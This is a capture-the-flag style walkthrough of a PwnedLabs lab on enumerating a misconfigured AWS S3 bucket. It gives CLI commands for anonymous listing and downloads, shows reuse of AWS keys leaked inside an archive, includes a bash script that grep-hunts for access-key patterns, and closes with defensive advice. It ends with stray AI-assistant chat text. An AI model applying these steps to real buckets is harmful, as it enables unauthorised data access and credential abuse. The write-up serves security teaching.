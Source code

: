 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# AWS S3 Enumeration Basics

AWS S3 misconfigurations remain one of the most common entry points for adversaries targeting cloud environments. This walkthrough of the [_AWS S3 Enumeration Basics_](aws-s3-enumeration-basics.md) lab from PwnedLabs demonstrates not just the mechanics of bucket enumeration, but the reasoning process required to diagnose endpoint issues, escalate from anonymous access to credential abuse, and extract defensive lessons relevant to real-world engagements. The focus is on the decision-making path rather than a rote command sequence, making it directly useful for pentesters and red team operators.

## Reconnaissance

### S3 Bucket Indicators

When spawning the lab, we get the following URL as a target: [http://dev.huge-logistics.com/](http://dev.huge-logistics.com/).&#x20;

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_homepage.png" alt=""><figcaption></figcaption></figure>

Upon enumerating the site manually, there are various indicators that point that this is hosted into an AWS S3 bucket. For instance, opening an image (_right click_ → _Open image in new tab_) the link points to `s3.amazonaws.com`:

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_image.png" alt=""><figcaption></figcaption></figure>

In addition, inspecting the page's source code also includes `s3`-related links:

<figure><img src="../../.gitbook/assets/pwnedlabs_s3_enum_source.png" alt=""><figcaption></figcaption></figure>

The page's source code can be also be retrieved via CLI using `curl`:

{% code overflow="wrap" %}
```bash
$ curl -s http://dev.huge-logistics.com/ | grep s3
  <link rel="stylesheet" href="https://s3.amazonaws.com/dev.huge-logistics.com/static/style.css">
<link rel="shortcut icon" href="https://s3.amazonaws.com/dev.huge-logistics.com/static/favicon.png">
<img src="https://s3.amazonaws.com/dev.huge-logistics.com/static/logo.png" width="100">
<a href="#"><img src="https://s3.amazonaws.com/dev.huge-logistics.com/static/logo.png" id="res_logo"></a>
  <script  src="https://s3.amazonaws.com/dev.huge-logistics.com/static/script.js"></script>
```
{% endcode %}

### Anonymous Recon

Attempting to confirm the existence of the `dev.huge-logistics.com` bucket returns an error:

{% code overflow="wrap" %}
```bash
# List the bucket's contents
$ aws s3 ls s3://dev.huge-logistics.com/ --no-sign-request

Could not connect to the endpoint URL: "https://s3.temp.amazonaws.com/dev.huge-logistics.com?list-type=2&prefix=&encoding-type=url"
```
{% endcode %}

This occurs because the AWS CLI attempts to resolve the bucket via the default endpoint, but the lab environment redirects DNS through a private or emulated endpoint. The CLI interprets the request correctly but cannot reach the intended API service due to the internal network configuration. Explicitly specifying the region ensures the CLI constructs the correct S3 API endpoint:

{% code overflow="wrap" %}
```bash
# Enumerate the AWS region
$ nslookup dev.huge-logistics.com
Server:         10.255.255.254
Address:        10.255.255.254#53

Non-authoritative answer:
dev.huge-logistics.com  canonical name = dev.huge-logistics.com.s3-website-us-east-1.amazonaws.com.
<SNIP>

# Specify the region parameter and list the bucket's content again
$ aws s3 ls s3://dev.huge-logistics.com/ --no-sign-request --region us-east-1
                           PRE admin/
                           PRE migration-files/
                           PRE shared/
                           PRE static/
2023-10-16 18:00:47       5347 index.html
```
{% endcode %}

The corrected request aligns the CLI with the actual S3 API endpoint (`https://dev.huge-logistics.com.s3.us-east-1.amazonaws.com`) and successfully retrieves the bucket listing.



Once the endpoint mismatch is resolved, anonymous access reveals accessible objects within the bucket. Enumeration techniques include recursive listing, targeted downloads, and inspection of object metadata:

{% code overflow="wrap" %}
```bash
# List objects at the bucket root
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --region us-east-1

# Recursively list contents
aws s3 ls s3://dev.huge-logistics.com --no-sign-request --region us-east-1 --recursive

# Download suspicious object (e.g., migration.zip)
aws s3 cp s3://dev.huge-logistics.com/migration.zip . --no-sign-request --region us-east-1
```
{% endcode %}

### Credential Exposure and Escalation

Inside the archive, a PowerShell migration script contains embedded AWS access keys. While no CVE identifier is associated with this misconfiguration, it represents a credential exposure vulnerability due to insecure secret storage in code artifacts. Using the discovered keys with the AWS CLI enables authenticated access:

```bash
# Configure CLI with compromised keys
aws configure

# Enumerate restricted paths
aws s3 ls s3://dev.huge-logistics.com/admin/ --region us-east-1
```

With authenticated enumeration, restricted paths such as `admin/` become accessible, demonstrating how leaked credentials escalate privileges beyond what was initially available.

### Automating Enumeration

Manual steps can be automated to ensure consistent execution during engagements. The following script validates DNS resolution, attempts anonymous listing, downloads any ZIP archives, and searches for embedded credentials.

```bash
#!/bin/bash
# s3_enum.sh — Automates safe anonymous enumeration of an S3 bucket

set -euo pipefail

BUCKET="$1"
REGION="${2:-us-east-1}"
API_ENDPOINT="${BUCKET}.s3.${REGION}.amazonaws.com"

echo "[*] Enumerating bucket: ${BUCKET} in region ${REGION}"
echo "[*] API endpoint assumed: https://${API_ENDPOINT}"

dig "${BUCKET}" +short | xargs -n1 dig +noall +answer || true

if aws s3 ls "s3://${BUCKET}" --no-sign-request --region "${REGION}"; then
  echo "[+] Public listing succeeded!"
else
  aws s3 ls "s3://${BUCKET}" --no-sign-request --endpoint-url "https://${API_ENDPOINT}"
fi

TMPDIR=$(mktemp -d)
ZIPS=$(aws s3 ls "s3://${BUCKET}/" --no-sign-request --region "${REGION}" | awk '{print $4}' | grep -E '\.zip$' || true)
for ZIP in ${ZIPS}; do
  aws s3 cp "s3://${BUCKET}/${ZIP}" "${TMPDIR}/" --no-sign-request --region "${REGION}"
  unzip -qq "${TMPDIR}/${ZIP}" -d "${TMPDIR}/"
  grep -R -E "AKIA[0-9A-Z]{16}|aws_secret_access_key" "${TMPDIR}" || true
done
```

### Defensive Considerations

Credential exposure in code artifacts highlights the need for proper secret management. Hardcoding credentials should be replaced with AWS Secrets Manager or Parameter Store, and automated scans should enforce this policy across repositories. At the storage layer, enabling **S3 Block Public Access** at both the account and bucket level prevents inadvertent anonymous access. For detection, CloudTrail data events combined with S3 access logs provide visibility into suspicious `ListBucket` and `GetObject` activity, while GuardDuty enriches this data with anomaly detection. Detection engineering should focus on identifying repetitive object enumeration patterns and downloads from untrusted IP ranges, which are indicative of adversarial behavior.

### Key Takeaways

The value of this lab extends beyond the act of retrieving a ZIP file. The real skill lies in recognizing the difference between website and API endpoints, troubleshooting CLI errors, and pivoting from anonymous enumeration to authenticated escalation through credential discovery. While many walkthroughs document the exact commands, a high-value approach emphasizes reasoning and adaptability, which are critical in real-world operations. By combining offensive methodology with defensive recommendations, this walkthrough delivers insights useful to both red teamers and defenders tasked with securing AWS environments.

***

✅ This draft now has both **narrative explanations and practical code snippets**, making it publish-ready.

Do you also want me to enrich the walkthrough with **screenshots or diagrams** (e.g., DNS resolution chain, bucket listing output, attack flow) so it’s visually engaging for readers?
